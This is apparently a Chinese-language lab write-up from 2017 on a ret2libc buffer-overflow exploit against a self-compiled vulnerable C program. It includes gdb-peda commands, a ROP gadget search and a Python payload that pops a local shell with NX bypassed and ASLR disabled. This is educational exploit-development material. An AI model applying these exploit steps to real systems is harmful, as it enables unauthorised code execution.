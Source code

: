 ```yaml
---
title : ret2libc
date : 2017-11-10
tags : pwn
---
```


> this is a test not true

## 0x00准备

- 本次实验的机器为`Ubuntu 16.04.2 LTS`64位系统

- 需要关闭ASLR，`echo 0 > /proc/sys/kernel/randomize_va_space`，如果提示权限不够，可能需要用`su`提升权限

- 用`gcc`编译需要关闭`stack-protector`，打开NX

- 需要`gdb` `peda` `python2` `ROPgadget or Ropper`
<!-- more -->
- 攻击目标`test.c`， `gcc -g -fno-stack-protector -o test test.c`

  ```c
  #include<stdio.h>
  #include<unistd.h>
  int main(){
  	char buf[10];
  	read(0,buf,80);
  	puts("23333\n");
  	return 0;
  }
  ```

## 0x01分析

测试程序很明显存在一个溢出的漏洞，但不能够写入一段`shellcode`，然后运行，因为此时栈上的数据是不可执行的，也就是打开了NX，可以通过`checksec`来查看程序的保护情况

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

幸运的是可以使用`ret2libc`加上一点`ROP`，劫持程序执行流，让它运行`system()`

## 0x02确定返回地址的偏移量

  ```
gdb-peda$ pattern_create 100 test.txt
Writing pattern of 100 chars to filename "test.txt"
gdb-peda$ r < test.txt
...
gdb-peda$ x/wx $rsp
0x7fffffffdd08:	0x44414128
gdb-peda$ pattern_offset 0x44414128
1145127208 found at offset: 24
  ```

  获得返回地址的偏移量24

## 0x03确定相关地址

  ```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x7ffff7a52390 <__libc_system>
gdb-peda$ find '/bin/sh'
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7ffff7b99d17 --> 0x68732f6e69622f ('/bin/sh')
  ```

因为关掉了`ASLR`所以动态链接库的地址不会变化，可以直接使用`system`函数的地址`0x7ffff7a52390`，字符串`/bin/sh`的地址`0x7ffff7b99d17`

## 0x04构造ROP链

还有一个需要解决的问题，怎样把`/bin/sh`传到`system`函数中去，在`linux64`的系统上，一般使用寄存器传递参数，按照`rdi,rsi,rdx,rcx,r8,r9`的顺序传递，如果参数过多，再用栈传递参数

所以需要一个简短的ROP链`pop rdi;ret`，可以使用工具`Ropper` `ROPgadget`或者直接`objdump`

```
$ ROPgadget --binary test|grep pop|grep rdi
0x0000000000400603 : pop rdi ; ret
```

## 0x05编写payload

```python
from struct import *
buf = 'a'*24
buf += pack('<Q', 0x400603)
buf += pack('<Q', 0x7ffff7b99d17)
buf += pack('<Q', 0x7ffff7a52390)
f = open('test.txt', 'w')
f.write(buf)
f.close()
```

整个流程大概是这样的：

返回地址被`pop rdi`的地址覆盖，所以程序流被控制了，执行`pop rdi;ret`，把栈顶弹出到`rdi`中，栈顶现在是`/bin/sh`的地址，然后它的地址自然被传递到了`rdi`寄存器中，接着执行`ret`，栈顶被弹入到`rip`，也就是`system()`的地址被存入了`rip`，现在调用`system()`函数，参数存在`rdi`中

## 0x06测试

```
$ (cat test.txt;cat)|./test
23333

whoami
void0red
```

可以看到get到了`shell`

## 0x07总结

通过`ret2libc`可以绕过`NX`
